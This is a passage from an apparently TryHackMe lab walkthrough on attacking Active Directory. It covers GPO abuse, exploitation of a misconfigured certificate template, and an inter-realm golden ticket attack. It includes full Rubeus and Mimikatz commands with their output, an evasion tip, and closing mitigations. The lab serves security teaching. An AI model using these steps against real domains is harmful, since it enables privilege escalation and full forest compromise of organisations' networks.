In order to modify the GPO, we need to access Group Policy Management as the AD user that has the relevant permissions. We could RDP into THMSERVER1 as the user, but that may kick the user out of their active session, raising suspicion. Instead, we will RDP into THMWRK1 with either our normal or our Tier 2 Admin account, inject the AD user's credentials into memory using the runas command, and open MMC to modify the GPO. For a recap on the runas command, refer to the [Enumerating AD](http://tryhackme.com/room/adenumeration) room; however, the required command is also provided here that should be executed from an administrative command prompt window:



Once prompted, provide the password associated with the account. To verify that you provided the correct credentials, you can run dir \\za.tryhackme.loc\sysvol. In the newly spawned command prompt window, we can start the Microsoft Management Console:



MMC screenshot.

We now want to add the Group Policy Management snap-in:

1. Click **File -> Add/Remove Snap-in**
2. Select the **Group Policy Management** snap-in and click **Add**
3. Click **Ok**

You should now be able to see GPOs for the za.tryhackme.com domain:



We can now navigate to the GPO that our user has permission to modify (Servers > Management Servers> Management Server Pushes).



We can right-click on the GPO and select Edit. This will open the new Group Policy Management Editor window.



In order to add our account to the local groups, we need to perform the following steps:

1. Expand **Computer Configuration**
2. Expand **Policies**
3. Expand **Windows Settings**
4. Expand **Security Settings**
5. Right Click on **Restricted Groups** and select **Add Group** (If the **IT Support** group already exists, it means someone has already performed the exploit. You can either delete it to create it yourself, or just inspect it to see what was configured.)
6. Click **Browse**, enter **IT Support** and  click **Check Names**
7. Click **Okay** twice



The first filter is not used. For the second filter, we want to add both the Administrators and Remote Desktop Users groups. In the end, it should look something like this:



Once the configuration has been made, we can click **Apply** and **OK**. Now, all we need to do is wait for a maximum of 15 minutes for the GPO to be applied. After this, our initial account that we made a member of the **IT Support** group will now have administrative and RDP permissions on THMSERVER2!

### Answer the questions below

* What object allows users to configure Windows policies?

* What AD feature allows us to configure GPOs for the entire AD structure?

* What is the name of the GPO that our compromised AD account owns?

* What is the value of the flag stored on THMSERVER2 in the Administrator's Desktop directory (flag4.txt)?

## Task 7 - Exploiting Certificates

Now that we have access to THMSERVER2, we have furthered our journey of exploiting AD by exploiting all Tier 1 assets (servers). However, we are again stuck without the simple means to move to the next tier. So again, we will need to look for more creative paths.

Research done and released as a [whitepaper](https://posts.specterops.io/certified-pre-owned-d95910965cd2) by SpecterOps showed that it was possible to exploit misconfigured certificate templates for privilege escalation and lateral movement. If you want to better understand certificate misconfigurations and how to identify them, please have a look at [this room](http://tryhackme.com/jr/adcertificatetemplates).

### AD Certificate Services

AD Certificate Services (CS) is Microsoft's Public Key Infrastructure (PKI) implementation. Since AD provides a level of trust in an organisation, it can be used as a CA to prove and delegate trust. AD CS is used for several things, such as encrypting file systems, creating and verifying digital signatures, and even user authentication, making it a promising avenue for attackers.

Since AD CS is a privileged function, it usually runs on selected domain controllers. Meaning normal users can't really interact with the service directly. On the other side of the coin, organisations tend to be too large to have an administrator create and distribute each certificate manually. This is where certificate templates come in. Administrators of AD CS can create several templates that can allow any user with the relevant permissions to request a certificate themselves. These templates have parameters that say which user can request the certificate and what is required. SpecterOps found that specific combinations of these parameters can be incredibly toxic and abused for privilege escalation and persistent access.

Before we dive deeper into certificate abuse, some terminology:

* PKI - Public Key Infrastructure is a system that manages certificates and public key encryption
* AD CS - Active Directory Certificate Services is Microsoft's PKI implementation which usually runs on domain controllers
* CA - Certificate Authority is a PKI that issues certificates
* Certificate Template - a collection of settings and policies that defines how and when a certificate may be issued by a CA
* CSR - Certificate Signing Request is a message sent to a CA to request a signed certificate
* EKU - Extended/Enhanced Key Usage are object identifiers that define how a generated certificate may be used

### Finding Vulnerable Certificate Templates

In order to find vulnerable templates, we will use Window's built-in tool certutil. Using our RDP access on THMSERVER2, we can run the following Powershell script to enumerate certificates:



This will provide output on all configured templates. We could also use a certificate auditing tool such as Ghostpack's [PSPKIAudit](https://github.com/GhostPack/PSPKIAudit). However, a manual approach allows us to make sure we find all possible misconfigurations. A certificate template is deemed misconfigured if a combination of parameter values becomes poisonous, allowing the requester to perform privilege escalation. In our case, we are looking for a template with the following poisonous parameter combination:

* **Client Authentication** - The certificate can be used for Client Authentication.
* **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT** - The certificate template allows us to specify the Subject Alternative Name (SAN).
* **CTPRIVATEKEY_FLAG_EXPORTABLE_KEY** - The certificate will be exportable with the private key.
* **Certificate Permissions** - We have the required permissions to use the certificate template.

If you are interested in learning more about poisonous parameter combinations, have a read of the whitepaper from SpecterOps. Since the aim of this room is to gain more broad knowledge of AD exploitation attacks, we will be pointing out that Template[32] is the vulnerable template. In this template, we can see that the machine account of THMSERVER2 can issue a CSR for a template that allows us to specify the Subject Alternative Name (SAN) and can be used for client authentication.

SpecterOps mentions eight common security misconfigurations with AD CS, so it should be noted that there are still a significant amount of potential misconfigurations that can be found.

### Exploiting a Certificate Template

Using RDP access on THMSERVER2, we will now request our certificate. If you use Remmina and save the config of the RDP connection, please make sure to disable **Restricted admin mode**. We will use the Microsoft Management Console (MMC):

1. Click **Start->run**
2. Type **mmc** and hit enter
3. Click **File->Add/Remove Snap-in..**
4. Add the **Certificates** snap-in and make sure to select **Computer Account** and **Local computer** on the prompts.
5. Click **OK**

You should now see the Certificate snap-in:



We will request a personal certificate:

1. Right Click on **Personal** and select **All Tasks->Request New Certificate...**
2. Click **Next** twice to select the AD enrollment policy.
3. You will see that we have one template that we can request, but first, we need to provide additional information.
4. Click on the **More Information** warning.
5. Change the **Subject name Type** option to **Common Name** and provide any value, since it does not matter, and click **Add**.
6. Change the **Alternative name Type** option to **User principal name**.
7. Supply the UPN of the user you want to impersonate. The best would be a DA account such as Administrator@za.tryhackme.loc and click **Add**.

Your additional information should look something like this:


Once you are happy with it, click **Apply** and **OK**. Then, select the certificate and click **Enroll**. You should be able to see your certificate:



The last step is to export our certificate with the private key:

1. Right-click on the certificate and select **All Tasks->Export...**
2. Click **Next**, select **Yes, export the private key,** and click **Next**.
3. Click **Next**, then set a password for the certificate since the private key cannot be exported without a password.
4. Click **Next** and select a location to store the certificate.
5. Click **Next** and finally click **Finish**.

### User Impersonation through a Certificate

Now we can finally impersonate a user. To perform this, two steps are required:

* Use the certificate to request a Kerberos ticket-granting ticket (TGT)
* Load the Kerberos TGT into your hacking platform of choice

For the first step, we will be using [Rubeus](https://github.com/GhostPack/Rubeus). An already compiled version is available in the `C:\Tools\` directory. Open a command prompt window and navigate to this directory. We will use the following command to request the TGT:

```
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:za.tryhackme.loc /dc:<IP of domain controller>
```

Let's break down the parameters:

* **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
* **/enctype** -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
* **/certificate** - Path to the certificate we have generated
* **/password** - The password for our certificate file
* **/outfile** - The file where our TGT will be output to
* **/domain** - The FQDN of the domain we are currently attacking
* **/dc** - The IP of the domain controller which we are requesting the TGT from. Usually it is best to select a DC that has a CA service running

Once we execute the command, we should receive our TGT:

```
C:\THMTools> .\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:12.31.1.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
       
             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
       
         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             : ZA.TRYHACKME.LOC
         UserName                 : Adminsitrator
         UserRealm                : ZA.TRYHACKME.LOC
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```
      

Now we can use Mimikatz to load the TGT and authenticate to THMDC:

```
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye!

C:\Tools>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,914,541,568 bytes free
```

Finally, we have access to Tier 0 infrastructure and have compromised the full child domain!

### Answer the questions below

* What does the user create to ask the CA for a certificate?

* What is the name of Microsoft's PKI implementation?

* What is the value of the flag stored on THMDC in the Administrator's Desktop directory (flag5.txt)?

## Task 8 - Exploiting Domain Trusts

Even though we have access to Tier 0 infrastructure, this is still not enough. We have only exploited the ZA.TRYHACKME.LOC domain. Surely TRYHACKME must have domains for other regions as well? Well, if we take control of the root domain, TRYHACKME.LOC, we will be in a position to compromise all of these regional domains. In this task, we will look at how domain trust can be exploited to take control of the entire forest.

### Domain Trusts

As discussed in the [AD Basics room](https://tryhackme.com/jr/activedirectorybasics), a forest is a collection of one or more domain trees inside an AD network. Domain Trusts are a mechanism for users in the network to gain access to other resources in the domain. For the most part, trusts outline how the domains inside of a forest communicate with each other. In some environments, trusts can be extended out to external domains and even forests in some cases.

There are two main types of trusts that can be configured between domains:

* Directional - The direction of the trust flows from a trusting domain to a trusted domain
* Transitive - The trust relationship expands beyond just two domains to include other trusted domains

It is common to have a root or parent domain in a forest. In our case, this is TRYHACKME.LOC. For each regional office, sub or child domains are created, such as ZA.TRYHACKME.LOC or UK.TRYHACKME.LOC. This forest configuration will allow the sharing of resources between the ZA and the UK office. For example, if some user in the UK office requires access to THMSERVER1, we can grant access for the user in the ZA domain. This permission delegation works since there is bidirectional trust between ZA and the root domain and the UK and the root domain, essentially creating a transitive trust between ZA and UK.

As mentioned above, the trust between a parent and child domain is bidirectional. This is intended behaviour and is used to share resources through greater transitive trust relationships. However, as an attacker, we can also exploit this trust to compromise the parent domain if we have compromised a child domain.

### KRBTGT and Golden Tickets

KRBTGT is the account used for Microsoft's implementation of Kerberos. The name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT). Essentially, this account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. This account is used to encrypt and sign all Kerberos tickets for the domain. Since the password hash is shared by all domain controllers, they can then verify the authenticity of the received TGT when users request access to resources.

However, what if we want to generate our own TGTs to grant us access to everything? This is known as a Golden Ticket attack. In a Golden Ticket attack, we bypass the KDC altogether and create our own TGTs, essentially becoming a Ticket Granting Server (TGS). In order to forge TGTs, we need the following information:

* The FQDN of the domain
* The Security Identifier (SID) of the domain
* The username of the account we want to impersonate
* The KRBTGT password hash

The first three are usually easy to recover. The last one requires a domain compromise since the KRBTGT password hash is only stored on domain controllers. Luckily for us, we have just compromised the Tier 0 admins group with a forged certificate, so we are in a position to recover the KRBTGT password hash.

We will again use Mimikatz with a DC Sync to recover the KRBTGT password hash on THMSERVER2:


### Inter-Realm TGTs

Using the KRBTGT password hash, we could now forge a Golden Ticket to access any resource in the child domain. This will also be discussed in more detail in the Persisting AD room. However, we can take this a step further by forging an Inter-Realm TGT. Inter-Realm TGTs are used to provide access to resources in other domains. In our case, we want to exploit the bidirectional trust relationship between the child and parent domain to gain full access to the parent domain.

We will include extra account SIDs from other domains when we construct the Golden Ticket to perform this exploit. Mimikatz can assist with this, allowing us to set the ExtraSids section of the KERB_VALIDATION_INFO structure of the Kerberos TGT. The ExtraSids section is described as “A pointer to a list of KERB_SID_AND_ATTRIBUTES structures that contain a list of SIDs corresponding to groups in domains other than the account domain to which the principal belongs”.

The key here is that we will exploit the trust the parent domain has with our child domain by adding the SID of the Enterprise Admins (EA) group as an extra SID to our forged ticket for the domain controller of the child domain. The EA group belongs to the parent domain and membership to this group essentially grants Administrative privileges over the entire forest! The default SID for this group is S-1-5-21-<RootDomain>-519.

Before we can go into exploitation, we first need to recover two SIDs:

* The SID of the child domain controller (THMDC), which we will impersonate in our forged TGT
* The SID of the Enterprise Admins in the parent domain, which we will add as an extra SID to our forged TGT

To recover these SIDs, we can use the AD-RSAT Powershell cmdlets. We can recover the SID of the child domain controller using the following command:



We can recover the SID of the Enterprise Admins group using the following command to query the parent domain controller:



### Exploiting Domain Trusts

We finally have all of the information required to create our forged TGT. We will use Mimikatz to generate this golden ticket. The command will look something like this:



First, we will verify that this ticket works for access to THMDC since it is a valid ticket for the Administrator user of the child domain:



This at least confirms that the Golden Ticket was forged for access to the child DC. However, since we specified extra SIDs, we should also now have access to the parent DC:


This proves that we now have fully compromised the parent domain solely by compromising one of the child domains!

### Answer the questions below

* What domain trust relationship is by default configured between a parent and a child domain?

* What is the name of the AD account used by the KDC to encrypt and sign TGTs?

* What is the name of the TGT that grants access to resources outside of our current domain?

* What is the value of the flag stored on THMROOTDC in the Administrator's Desktop folder (flag6.txt)?

## Task 9 - Conclusion

Exploiting AD takes time to master, and the techniques used will highly depend on the configuration of the AD structure that is being attacked. The biggest thing to understand is that the process is cyclic. We will, in most cases, not be able to run a single boot-to-root exploit that gives us DA access. The best approach is to perform exploitation that furthers your access, then use the access that was achieved to perform enumeration again, looking for additional exploit paths that may be possible from this new position.

### Mitigations

AD exploitation, like AD enumeration, is incredibly hard to defend against. This is because what may be considered a misconfiguration that can be exploited, has an actual business case. However, we can do a couple of things to protect against exploitation:

* We need to ensure that no configuration breaks our tiering model. Accounts in a lower tier should not have the ability to interact with resources in a higher tier. Furthermore, accounts from a higher tier should never log onto resources in a lower tier.
* The principle of least privilege should be followed when permission delegation is performed. Furthermore, permission delegation should adhere to the tiering model, ensuring that a lower-tiered object can't alter a higher tiered object.
* SMB signing should be enforced, not just enabled. This will prevent credential relay attempts.
* AD objects and their configuration are not the only paths for exploitation. AD services, such as AD CS should also be considered part of the attack surface and secured.
* We need to implement sufficient security controls to protect Tier 0 infrastructure and accounts in our child domains since a compromise of one can lead to the compromise of the entire forest.

With our exploitation of AD complete, the next step is to dig in our roots to make sure the blue team cannot simply purge our access. This will be covered in the next room.

### Answer the questions below

* Done with AD exploitation, ready for AD persistence!